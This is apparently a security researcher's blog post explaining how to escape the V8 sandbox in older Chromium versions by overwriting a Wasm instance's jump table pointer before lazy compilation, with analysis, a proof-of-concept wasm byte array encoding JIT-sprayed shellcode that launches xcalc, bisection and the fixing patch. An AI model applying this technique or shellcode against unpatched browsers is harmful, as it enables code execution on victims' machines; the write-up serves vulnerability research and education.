





# Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 2 (110.0.5481.77 <= Chromium < 122.0.6261.57)

After the [patch](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) for the exploitation technique explained in [part 1](https://aaronsjcho.github.io/Escaping-V8-Sandbox-via-WebAssembly-JIT-Spraying-Part-1/), we cannot directly overwrite call target and control `rip`. However, a new technique was introduced because of newly implemented lazy compilation for Wasm function. I will explain about this in this post.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (Jan 4th, 2024)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly lazy compilation

```js
/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.



There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.



When a function is called for the first time, it jumps to `Builtins_WasmCompileLazy()` and compile the function lazily in run-time.



From the second call, it directly jumps to compiled code.

`Builtins_WasmCompileLazy()` is generate by [`Builtins::Generate_WasmCompileLazy()`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3118). It adds code which [set `r15` to `jump_table_start` in `WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3145) and [jumps to `r15`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3151). As a result, generated code of `Builtins_WasmCompileLazy()` looks like following:



## Exploitation

### Hijack execution flow

With lazy compilation enabled, we can overwrite `jump_table_start` with the address which we want to jump to, before Wasm function is compiled. Then, `Builtins_WasmCompileLazy()` will jump to the address after compilation is over, which means that we can control `rip`.

[`shellcode.py`](./shellcode.py) [`pwn.wat`](./pwn.wat) [`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.



## Bisection

> [[wasm] Enable lazy compilation by default](https://chromium.googlesource.com/v8/v8/+/29131d5e3ea9cbfeae3e6dc3fd6c4439f0ac4bde) (Nov 14th, 2022)

The new exploitation technique explained in this post was introduced in the commit above, which enabled lazy compilation for Wasm function by default.

## Patch

> [[wasm] Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (Jan 4th, 2024)
> 
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).
